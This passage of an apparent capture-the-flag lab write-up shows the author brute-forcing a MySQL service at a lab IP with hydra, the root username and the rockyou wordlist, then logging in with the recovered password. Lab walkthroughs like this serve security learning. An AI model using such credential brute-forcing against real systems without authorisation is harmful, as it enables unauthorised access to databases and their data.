 ![a8df7753a969d772078c0e7d133b9297.png](./_resources/a8df7753a969d772078c0e7d133b9297.png)

Given the name of the room, let's try to brute force the services we found with hydra. We'll brute force mysql; the default username is `root`, so we just have to guess the password.

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.143.178 mysql
```

After a few seconds, we get a hit:

![ba315fcd63f4d962c66f9e9893c83db0.png](./_resources/ba315fcd63f4d962c66f9e9893c83db0.png)

Let's access mysql by using `mysql -h 10.10.143.178 -u root -p` and then entering the password we found.

![b27976dca8fc85211ae832bfe8977215.png](./_resources/b27976dca8fc85211ae832bfe8977215.png)
